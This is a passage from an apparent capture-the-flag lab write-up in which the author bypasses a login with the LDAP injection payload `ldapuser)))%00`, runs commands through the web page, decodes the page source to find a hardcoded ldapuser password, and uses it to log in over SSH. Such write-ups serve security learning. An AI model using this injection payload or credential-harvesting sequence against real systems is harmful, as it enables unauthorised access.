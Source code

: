 On submitting the username `ldapuser)))%00`, `curl` returns a redirect. I’ll
try it in Firefox, submitting `ldapuser%29%29%29%00` and the current OTP, and
it logs in!

Even better, when I run a command, I get results. `id`:

![1549820880477](https://0xdfimages.gitlab.io/img/1549820880477.png)

Similarly, `ls -l` shows the current directory:

![1549901548104](https://0xdfimages.gitlab.io/img/1549901548104.png)

## Shells

I’ll use shells as two different users later in this box, so I’ll get them box
now.

### Shell as ldapuser

To start looking around, I did `base64 page.php`, which gives me the source
for the page:

![1549827753960](https://0xdfimages.gitlab.io/img/1549827753960.png)

After taking that text to my terminal and decoding it, I’ll notice towards the
top it has the password for ldapuser:

    
    
    root@kali# base64 -d page.php.b64 > page.php
    
    
    
    <!doctype html>
    <?php
    session_start();
    if (!isset ($_SESSION['username'])) header('Location: /');
    
    $username1 = $_SESSION['username'];
    
    $strErrorMsg="";
    $cmdOutput=array();
    
    $username = 'ldapuser';
    $password = 'e398e27d5c4ad45086fe431120932a01';
    ...[snip]...
    

That password works for ssh access:

    
    
    root@kali# ssh ldapuser@10.10.10.122
    ldapuser@10.10.10.122's password:
    Last login: Mon Feb 11 02:33:41 2019 from 10.10.14.8
    [ldapuser@ctf ~]$ id
    uid=1000(ldapuser) gid=1000(ldapuser) groups=1000(ldapuser) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    